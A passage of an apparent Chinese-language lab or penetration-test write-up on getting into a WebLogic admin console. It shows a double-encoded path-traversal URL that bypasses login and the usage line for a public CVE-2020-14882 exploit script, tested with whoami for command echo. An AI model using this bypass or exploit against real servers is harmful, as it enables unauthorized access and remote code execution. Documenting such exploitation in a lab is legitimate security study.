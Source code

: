 
#### **2.进入后台**

尝试用burp爆破，花时收获甚微，这里有一个绕过验证漏洞，我们使用构造URL

```
http://10.0.0.128:52634/console/css/%252e%252e%252fconsole.portal
```

成功进入了后台，但是获得的权限很低

<img src="2024-02-13/image-20230222115106557.png" alt="image-20230222115106557" style="zoom:67%;" />

#### **3.漏洞利用**

来自https://github.com/GGyao/CVE-2020-14882_ALL/blob/master/README.md上的漏洞利用脚本以及方法



###### 一、命令回显

```
python3 poc.py -u http://ip:port -c “{指令}”
```

这里的指令使用whoami进行测试，成功回显

![image-20230222120833329](2024-02-13/image-20230222120833329.png)
